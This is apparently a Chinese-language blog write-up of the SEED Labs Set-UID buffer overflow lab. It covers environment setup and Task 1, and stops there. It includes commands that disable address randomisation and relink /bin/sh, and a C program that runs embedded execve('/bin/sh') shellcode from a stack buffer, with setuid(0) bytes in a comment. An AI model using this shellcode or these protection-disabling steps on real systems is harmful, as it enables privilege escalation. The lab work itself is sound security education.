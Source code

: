 ```yaml
---
title: SeedLab ex4 Buffer Overflow Attack Lab (Set-UID Version)
date: 2024-01-09
categories:
 - 网络安全
cover: /images/covers/traffic.png
---
```

美丽

## env setup

1. 关闭地址空间随机化
```bash
sudo sysctl -w kernel.randomize_va_space=0
```
2. 配置 /bin/sh，换一个shell
```bash
sudo ln -sf /bin/zsh /bin/sh
```
3. StackGuard 和 Non-Executable Stack。这是系统中实施的另外两个对策。它们可以在编译时关闭。

## Task1: Getting Familiar with Shellcode

shellcode是shell的启动代码，包含命令和参数

实验中给的call_shellcode，目的是执行其中嵌入的```setuid()```程序，提升用户权限到root


记一下注释
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Binary code for setuid(0)
// 64-bit:  "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
// 32-bit:  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"

const char shellcode[] =
#if __x86_64__
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
    ;

int main(int argc, char **argv) {
  char code[500];

  strcpy(code, shellcode);
  int (*func)() = (int (*)())code; // 将缓冲区地址强制转换成函数指针

  func(); //调用函数指针执行程序
  return 1;
}
```
